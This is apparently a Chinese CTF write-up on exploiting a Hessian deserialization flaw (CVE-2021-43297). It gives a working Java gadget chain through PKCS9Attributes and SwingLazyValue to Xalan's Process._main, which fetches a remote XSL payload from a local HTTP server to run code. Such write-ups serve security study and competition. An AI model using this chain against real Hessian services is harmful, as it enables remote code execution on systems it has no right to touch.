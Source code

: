 
## 是不是有Bean
反编译看到pom.xml，发现就一个hessian依赖
![](https://img-blog.csdnimg.cn/3e48aac4405143adb6a17c31a32a7ea6.png)

这个hessian版本是存在CVE-2021-43297，然后就是D3CTF的fastjson链换成了jackson链

来看一下之前0CTF给出的wp：[https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2022/hessian-onlyJdk/writeup](https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2022/hessian-onlyJdk/writeup)
![](https://img-blog.csdnimg.cn/bd93cba2440543c987874ea13020c74d.png)

用tabby找一下返回类型为void的类
```
match (m1:Method) where m1.CLASSNAME=~"com.sun.org.*" and m1.RETURN_TYPE="void" and m1.IS_STATIC=true and m1.IS_PUBLIC=true
return m1 limit 20
```
![](https://img-blog.csdnimg.cn/68313714d622444db903a14a5a4429df.png)

就可以找到wp给出的：`com.sun.org.apache.xalan.internal.xslt.Process._main`方法
网上已经有了Xalan的利用方法：[Xalan-J XSLT 整数截断漏洞利用构造(CVE-2022-34169)](https://paper.seebug.org/1963/)

exp：
```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;

import com.caucho.hessian.io.SerializerFactory;
import sun.reflect.ReflectionFactory;
import sun.security.pkcs.PKCS9Attribute;
import sun.security.pkcs.PKCS9Attributes;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;

public class Hessian_PKCS9Attributes_SwingLazyValue_Process {
    public static void main(String[] args) throws Exception {
        PKCS9Attributes s = createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        String payload = "http://127.0.0.1:8000/calc.xml";
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xalan.internal.xslt.Process", "_main", new Object[]{new String[]{"-XSLTC", "-XSL", payload}}));

        setFieldValue(s,"attributes",uiDefaults);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        out.setSerializerFactory(new SerializerFactory());
        out.getSerializerFactory().setAllowNonSerializable(true);
        baos.write(79);
        out.writeObject(s);
        out.flush();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

```